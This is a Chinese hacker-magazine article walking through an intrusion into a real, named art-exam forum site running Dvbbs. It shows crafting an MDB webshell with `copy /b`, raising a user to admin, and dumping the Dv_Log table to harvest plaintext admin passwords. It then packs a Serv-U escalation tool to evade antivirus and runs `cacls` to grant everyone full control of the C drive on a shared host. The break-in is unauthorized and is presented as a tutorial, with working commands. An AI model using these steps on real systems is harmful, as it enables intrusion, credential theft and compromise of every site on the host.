对于在最新版本的动网 7.1 SP1 怎么获得 SHELL，在前几期的《黑客X档案》都有介绍。不过，在后台找个论坛设置成可上传 MDB 文件，这个步骤在很多文章中都没有提及，可能是他们都认为这个步骤太简单了吧，但是你不设还真的不行。现在我们找一个空的数据库文件，最简单的方法是用 Domain3.5 新建一个 MDB 数据库，保持空就可以。再找一个小马，最好是用那个写文件的小马或者一句话木马，在 CMD 中输入 `copy /b kong.mdb mm.asp casper.mdb`……后面步骤即可恢复并获得 SHELL。



## BT 提权进化论

旭方（高春雷）

一年一度的高考已经结束了，我有位朋友恰好今年参加了高考。一天她打电话过来说要我帮她个忙……不一会儿就来到了“黑龙江美术高考网”的门前。美术高考网？这不正是我要找的吗？进去看看！

进入网站后仔细搜集了一些对朋友有参考价值的资料……忽然发现了如图1所示信息，这不就是传说中的“动网”论坛吗？什么？7.0 SP3？动网 7.0 出了 SP3 吗？……今天我们就来测试一下黑龙江美术高考网的论坛是否也存在这个漏洞！



图1

首先是注册一个用户，然后登录，接着使用 XpFox 写的“Dvbbs sp2 权限提升软件”将我们刚才注册的用户提升为前台管理员……在“主机地址”“论坛地址”“用户名”“Cookies”等项目中填入信息并提交。

- （右栏）填写地址时网站前要以 `http://` 开头，论坛地址以 `/` 符号结尾，地址最后不要加 `index.asp`；
- “用户名”处写注册用户名；
- “Cookies”项可通过“抓取 Cookies”获得，或登录论坛后复制；
- 点击“提交”后提示成功提升为管理员。



图2

我们在论坛中重新登录这个用户，就会发现已经成功被提升为了前台管理员，如图3。



图3




在“网站地址”处填写论坛的地址信息 `http://www.hljmsgao.com/bbs/`，切记在后面要把 `index.asp` 去掉。然后填写刚才的账号和密码信息，验证码由于该论坛没有使用验证码，所以不用填写。之后点“登录”，登录成功后在下面的单选框中选择“暴 Dv_Log”，然后点击“我要暴了”，就会暴出对方 Dv_Log 中的所有内容，如图5。然后我们就可以在其中寻找被存放的管理员明文密码了。

可能会有菜鸟要说了，怎么这么多啊！有 122 页！这要是一页页找岂不把我们累死了！其实根据我的经验，遇到这样的情况我们只需要直接点击最后一页即可，因为前面的都是论坛里发表的一些帖子信息，里面的东西没有什么参考价值。我们就在其中寻找关键字为 `username2` 和 `password2` 这样的信息，和其对应的就是用户登录时的名称和密码信息！里面也许就有管理员的密码哦！

接下来，我们就可以采用前台发帖然后上传改了后缀的 asp 木马，然后在后台采用备份或者恢复数据库的办法得到 webshell 了！由于动网 7.0 版本对备份和恢复时数据库的合法性不进行检查，所以我们可以利用这点直接备份得到 webshell，如图8（关于如何备份数据库来得到 webshell 的具体方法参见以前的《黑客X档案》）。





这里我找到四条匹配的记录，“username2”和“password2”后面的信息就是用户登录时使用的用户名和密码了！

细心的朋友应该注意到了，第一条记录和第二条记录的 username2 后面的信息分别是编码内容，这是为什么呢？其实这种情况是由于对方的用户名是中文的原因，我们只需要使用工具对它进行还原即可，如图6。怎么样，成功还原了它的真面目了吧！用户名和密码都到手了，开始登录吧！

方法是先使用得到的用户名和密码在前台登录，成功后点“管理”，然后使用同样的用户名和密码登录后台即可，如图7。可以看出服务器支持 FSO 哦！

既然已经得到了 webshell，那就看看能否运行命令吧！通过 webshell 查看了下服务器组件的支持情况，发现 WScript.Shell 没有被禁用，于是我便到 WScript.Shell 命令模块中尝试运行 `netstat -an`、`net user`、`ipconfig` 等常用命令，但都返回了如图9所示的信息。看来是对方管理员设置了这些文件的访问权限，这好办，先通过 webshell 的服务器信息模块查看对方的系统信息，发现是 Windows 2003，于是向朋友要了 2003 系统下的 `cmd.exe`、`net.exe` 和 `netstat.exe`，将它们上传到了网站目录中，然后执行，但结果却是什么都没有返回！看来当前的权限是很低的了！





后来想了想，对啊！对方的系统不是 Windows 2003 吗？它默认情况下是支持 asp.net 的，而且 asp.net 的 webshell 权限相对于 asp 的要高，而且上传后可以执行命令。于是我便在工具箱中翻出了 lake2 写的 asp.net 木马 webadmin，然后上传，但却被对方的杀毒软件直接 kill 掉了……接着又试了其他几款 .net 下的 webshell，但都是一样的遭遇！难道提升权限就一点办法也没有吗？我翻了翻以前的杂志，对呀，提升权限还可以使用 pcAnywhere 和 Serv-U 啊！倘若遇到不负责任的管理员的话我们就有空子可钻了！我决定去 C 盘看看对方是否安装了 pcAnywhere，如果找到了传说中的 .cif 文件，那控制这个服务器就有希望了！



但当我访问 C 盘时却给出了如图10所示的信息，无法访问！又一条路被堵死了！接着我又试着跳出自己的网站目录去看看其他网站的目录和其他盘符，结果仍然是无法访问！自己被死锁在了黑龙江美术高考网的网站目录中！直觉告诉我这台服务器一定是个虚拟主机，所以权限的设置才会如此变态！为了证实我的想法，我使用 Domain3.5 检测了一下，果然不出所料，这台服务器是挂了 71 个站点的虚拟主机！看来想串站除了提升权限之外别无他法了。因为我在自己的网站目录中可以编辑和上传文件，所以提升权限还有希望！





很多虚拟主机都使用 Serv-U 这款 FTP 服务器软件，而且据说那个 Serv-U 的提权工具对 Serv-U 6.0 依然管用！好，就用它了！为了免去被杀毒软件无情 kill 掉的困扰，我事先对提权工具进行了加壳处理，然后上传，哈哈！终于上传上去了，如图12。准备就绪后开始提升权限！提权的原理是使用 Windows 自带的工具 `cacls.exe` 更改用户的 ACL（访问控制列表）。因为运行这个命令需要用户具备一定的权限，所以这里我们就使用 Serv-U 的提权工具，先提升我们的权限，然后运行 cacls 来更改当前用户的 ACL！

首先来到 webshell 下的“WScript.Shell 命令行操作”模块；然后记得要先点击“使用 WScript.Shell”，否则运行命令会不成功！然后在“命令／参数”里输入：

`D:\nethost\hljmsgao.com\bbs\images\ftp.exe "cacls.exe c: /T /E /G everyone:F"`

如图13，然后点“运行”，这样就赋予了 everyone 组成员对 C 盘的完全控制权限！接下来我们再访问下 C 盘看看能否访问，如图14。哈哈！终于可以访问了！我们再利用同样的方法让我们具有访问其他网站目录的权限！



